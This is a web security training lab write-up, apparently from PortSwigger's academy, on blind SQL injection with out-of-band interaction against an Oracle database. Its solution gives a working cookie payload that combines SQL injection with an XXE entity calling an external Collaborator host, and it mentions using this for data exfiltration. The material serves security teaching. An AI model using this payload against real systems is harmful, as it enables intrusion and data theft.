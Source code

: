 # Lab: Blind SQL injection with out-of-band interaction

### PRACTITIONER

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.  

```
Note
```
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server (burpcollaborator.net). 
```
Hint
```
This lab uses an Oracle database. For more information, see the [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

### Solution

1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the <code>TrackingId</code> cookie.
2. Modify the <code>TrackingId</code> cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic <a href="/web-security/xxe">XXE</a> techniques as follows: <code>TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('&lt;%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f&gt;&lt;!DOCTYPE+root+[+&lt;!ENTITY+%25+remote+SYSTEM+"http%3a//YOUR-COLLABORATOR-ID.burpcollaborator.net/"&gt;+%25remote%3b]&gt;'),'/l')+FROM+dual--</code>.

The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use <a href="/burp/documentation/desktop/tools/collaborator-client">Burp Collaborator client</a> to verify that your payload had indeed triggered a DNS lookup and potentially exploit this behavior to exfiltrate sensitive data from the application. We'll go over this technique in the next lab.

